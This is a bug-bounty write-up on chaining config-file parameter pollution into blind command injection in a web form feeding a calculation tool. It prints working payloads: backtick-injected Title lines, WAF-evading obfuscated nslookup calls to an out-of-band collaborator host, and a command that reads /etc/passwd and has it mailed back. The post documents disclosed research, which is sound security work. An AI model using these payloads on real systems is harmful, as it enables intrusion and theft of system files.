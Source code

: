```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

## Background

After performing my recon on a private program, I came across a pretty standard web form that accepted around 10 different numerical values, performed some calculations, and then emailed the results back to the user. The exact nature of the application was unknown to me as the math it was performing was well beyond what I have learned.

This behavior piqued my interest as this was on a more obscure subdomain, it accepted a lot of variables, and probably passed input to something that wasn't designed for the web. 

Here is an example of what the web form looked like:
![Web-Form](/assets/param-rce-web-form.jpg)

Using Burp Suite's Repeater, I submitted the form a few times. The parameters were unusual, as there were many client-side checks to ensure the numbers were within an acceptable range for the back-end application. 

After brute-forcing some numerical values, I finally got an email with output that seemed designed for a command line tool. I get excited any time I see back-end command line functionality reflected anywhere in a web app. Chances are decent that there may be a command injection vulnerability if we can figure out how to smuggle a command to the back-end service.

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

## CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to try and locate dangerous function calls such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass arbitrary input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable. On top of that, the web application used a regular expression to filter out any useful special characters like: \` $ ( ). 

At this stage we know the following so far:

*   The web application passes web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that **we control** that is passed to a system() call within CalcTool, which is our best chance at exploitation.
*   The goal is to find a way to pass something we control directly to that system call

### Polluting the Configuration

Bypassing filters can be tricky. In web applications, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, we know the web application accepts the variables as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration file had a few other numeric variables that lined up with similar ones from the web form. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looks like:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried polluted the job title variable using one of the numeric form values. If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

My goal was for the configuration file to look like this:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is essentially a blind command injection. Therefore, I needed an out-of-band method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw some activity! This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution.

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

Here is how the payload looks when it is ran by CalcTool:
```plaintext
mail -s "CalcTool Output: `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`" email@gmail.com < /tmp/synack77
```

The command within the back ticks is executed before the mail command is run. Therefore, the output of our command will be stored in /tmp/synack77 before the mail command runs and we get an email with the results of our command. In this case we are reading /etc/passwd. 

Finally, I received an email results of the cat /etc/passwd command:
![Payload Contents](/assets/param-rce-email-output-passwd.jpg)


Thanks for reading!
